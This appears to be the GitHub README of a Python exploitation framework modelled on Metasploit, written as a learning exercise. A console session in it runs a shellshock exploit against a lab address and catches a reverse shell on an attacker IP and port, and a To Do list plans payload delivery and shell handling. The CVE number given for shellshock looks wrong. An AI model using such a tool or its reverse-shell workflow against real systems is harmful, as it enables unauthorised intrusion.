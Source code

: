 # pysploit

This is a metasploit-like framework for system exploitation and penetration 
testing written in python. It is a work in progress and is an educational 
exercise for me so I learn how things actually work and stop being such a skid.

### Example of exploitation of the shellshock vulnerability (CVE-2014-6071)

```
[+]	New session created
pysploit> exploit load shellshock
exploit (shellshock)> exploit options
[~]	Exploit options	[~]
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
victim_ip               |		None
victim_port             |		None
attacker_ip             |		None
attacker_port           |		None
cgi_path                |		None
payload                 |		None
=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
exploit (shellshock)> exploit set victim_ip 192.168.56.101
exploit (shellshock)> exploit set victim_port 80
exploit (shellshock)> exploit set attacker_ip 192.168.56.102
exploit (shellshock)> exploit set attacker_port 4444
exploit (shellshock)> exploit set cgi_path /cgi-bin/status
exploit (shellshock)> exploit set payload [Not configured as of now]
exploit (shellshock)> exploit run
[*]	Checking for vulnerability
	[*]	Injecting with test nonce 13b64e57dbff4e63b412d40f02ecc933
	[+]	Received vulnerable output from target!
	[+]	Target 192.168.56.101 is vulnerable to shellshock
[*]	Running exploit for shellshock on 192.168.56.101
	[*]	Shell injection sent (reverse catch at 192.168.56.102:4444)
	[+] Shell caught by listener!
[+]	Exploitation completed!
exploit (shellshock)>
```

And on our listening machine...

![We have a catch](https://github.com/spencerdodd/pysploit/imgs/example-catch.png "catch img")

### =-=-=-= To Do =-=-=-=

* Build network module for the framework to handle file-dropping, multi-stage payload uploading, shell-hand
ling, etc.

* Create some payloads / payload execution frameworks (based off of network module interactions)

* Potentially migrate exploitation into Twisted protocols that are created by the exploits (?)